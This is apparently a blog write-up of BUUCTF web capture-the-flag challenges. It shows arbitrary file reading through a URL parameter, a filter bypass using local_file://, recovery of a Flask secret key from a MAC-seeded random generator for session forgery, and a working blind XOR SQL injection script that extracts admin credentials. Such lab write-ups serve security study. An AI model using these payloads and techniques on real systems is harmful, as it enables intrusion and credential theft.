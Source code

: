 ```yaml
---
title: "BUUCTF Web Writeup 9"
date: 2022-11-25T18:35:12+08:00
lastmod: 2022-11-25T18:35:12+08:00
draft: true
author: "X1r0z"

tags: []
categories: []

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


BUUCTF 刷题记录…

<!--more-->

## [CISCN2019 华东南赛区]Web4

任意文件读取

```
http://b49584d3-3080-416f-9e7e-f1390082ab6a.node4.buuoj.cn:81/read?url=/proc/self/cmdline
```

读取 cmdline 之后发现源文件在 /app/app.py 下, 然后读取 /usr/local/bin/python 发现环境是 2.7

```python
# encoding:utf-8
import re, random, uuid, urllib
from flask import Flask, session, request

app = Flask(__name__)
random.seed(uuid.getnode())
app.config['SECRET_KEY'] = str(random.random()*233)
app.debug = True

@app.route('/')
def index():
    session['username'] = 'www-data'
    return 'Hello World! <a href="/read?url=https://baidu.com">Read somethings</a>'

@app.route('/read')
def read():
    try:
        url = request.args.get('url')
        m = re.findall('^file.*', url, re.IGNORECASE)
        n = re.findall('flag', url, re.IGNORECASE)
        if m or n:
            return 'No Hack'
        res = urllib.urlopen(url)
        return res.read()
    except Exception as ex:
        print str(ex)
    return 'no response'

@app.route('/flag')
def flag():
    if session and session['username'] == 'fuck':
        return open('/flag.txt').read()
    else:
        return 'Access denied'

if __name__=='__main__':
    app.run(
        debug=True,
        host="0.0.0.0"
    )
```

一开始往 flask pin 方向想了, 看到 `uuid.getnode()` 才想起来读取的是 mac 地址, 那么就存在伪随机数的问题

```python
import random
import uuid

mac = '1a:fe:f0:5d:cc:05'
n = int(mac.replace(':', ''), 16)
random.seed(n)
print str(random.random() * 233)
```

首先必须得用 python 2.7 来跑, 然后坑点是 str 会对小数点后面几位四舍五入一下, 所以最终的 secret\_key 是 `145.348233579` 而不是 `145.34823357875226`

flask-session-cookie-manager 伪造 cookie 得到 flag

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211251840944.png)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211251840586.png)

看 wp 学到一个知识点, flask 环境下可以用 `local_file://` 代替 `file://`

## [Black Watch 入群题]Web

前端 webpack 打包, 开发者工具可以看到 vue 源码

简单异或 sql 注入

```python
import requests
import time

flag = ''

i = 1

while True:

    min = 32
    max = 127

    while min < max:
        time.sleep(0.08)
        mid = (min + max) // 2
        print(chr(mid))

        payload = 'if(ascii(substr((select(group_concat(username,\'_\',password))from(admin)),{},1))>{},1,0)'.format(i, mid)
        url = 'http://8f46cc43-6237-42d6-ae95-bee39e010ed1.node4.buuoj.cn:81/backend/content_detail.php?id=1^({})^1'.format(payload)
        res = requests.get(url)
        if 'content' in res.text:
            min = mid + 1
        else:
            max = mid
    flag += chr(min)
    i += 1

    print('found', flag)
```

用跑出来的第二个用户登录即可得到 flag

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211252017842.png)

## [GWCTF 2019]mypassword

